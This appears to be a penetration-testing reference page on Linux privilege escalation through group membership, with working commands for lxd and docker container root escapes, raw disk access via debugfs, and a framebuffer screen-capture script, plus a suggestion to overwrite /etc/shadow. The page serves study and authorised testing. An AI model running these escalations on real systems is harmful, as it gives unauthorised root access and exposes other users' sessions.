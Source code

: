 # Linux Privilege Escalation

### Abusing Excessive Groups

Often you'll find that a user has been made a member of a group that it needn't be a part of.  From this you can abuse this to either leak information or compromise the system in unintended ways.

When first enumerating a group, see what it can access and what special permissions may be afforded it as so:

```
find / -group groupname 2>/dev/null
```

Secondly, it's probably a good idea to refer to the following

[Debian Recommendations](https://www.gitbook.com/book/reboare/booj-security/edit#)

##### adm

The admin group, adm, allows the user to view logs in `/var/log`.  Whilst this is not directly exploitable, it can be used to leak sensitive information, such as user actions, vulnerable applications and any potentially hidden cron-jobs.

##### lxd

If a member of the lxd gorup, the user can use this to escalate to root, and potentially escape any containers it is a member of.

```bash
ubuntu@ubuntu:~$ lxc init ubuntu:16.04 test -c security.privileged=true 
Creating test 
ubuntu@ubuntu:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
Device whatever added to test 
ubuntu@ubuntu:~$ lxc start test 
ubuntu@ubuntu:~$ lxc exec test bash
```

By doing this we effectively have root permissions.  While you won't be able to run arbitrary code on the host, you can write and read any file with root privileges, allowing you to, for example, write a new root password in the /etc/shadow folder.

The [lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder) is ideal for engagements, as it's no larger than 4MB.

##### docker

In much the same vein as lxd, we can utilise the docker group to get full root privileges.

```
docker run -v /:/mnt/rootfs -i -t chrisfosterelli/rootplease
```

Similarly, we can use the [alpine](https://github.com/gliderlabs/docker-alpine/tree/2127169e2d9dcbb7ae8c7eca599affd2d61b49a7) docker image, if no useable containers are uploaded to the host.

##### disk

The disk group gives the user full access to any block devices contained within `/dev/`.  Since `/dev/sda1` will in general be the global file-system, and the disk group will have full read-write privileges to this device:

```
brw-rw---- 1 root disk 8, 1 Feb  5 13:38 /dev/sda1
```

From this we can use debugfs to enumerate the entire disk with effectively root level privileges.

##### video

The video group controls access to graphical output devices.  The output to screen is stored within the [framebuffer](https://www.kernel.org/doc/Documentation/fb/framebuffer.txt), which can be dumped to disk and converted to an image, using the following [script](https://www.cnx-software.com/2010/07/18/how-to-do-a-framebuffer-screenshot/):

```perl
#!/usr/bin/perl -w

$w = shift || 240;
$h = shift || 320;
$pixels = $w * $h;

open OUT, "|pnmtopng" or die "Can't pipe pnmtopng: $!\n";

printf OUT "P6%d %d\n255\n", $w, $h;

while ((read STDIN, $raw, 2) and $pixels--) {
   $short = unpack('S', $raw);
   print OUT pack("C3",
      ($short & 0xf800) >> 8,
      ($short & 0x7e0) >> 3,
      ($short & 0x1f) << 3);
}

close OUT;
```

We can run the above script in the following manner:

```bash
cp /dev/fb0 /tmp/fb0.raw
width=$(cat /sys/class/graphics/fb0/virtual_size | cut -d, -f1)
height=$(cat /sys/class/graphics/fb0/virtual_size | cut -d, -f2)
./raw2png $width $height < /tmp/fb0.raw > /tmp/fb0.png
```

This isn't directly exploitable, but utilized correctly can allow you to view a user with physical access' session and potentially leak information this way.  On modern systems this isn't likely exploitable.

[Alternative Script](ftp://ftp.embeddedarm.com/ts-arm-sbc/ts-7350-linux/samples/bmptoraw.c)



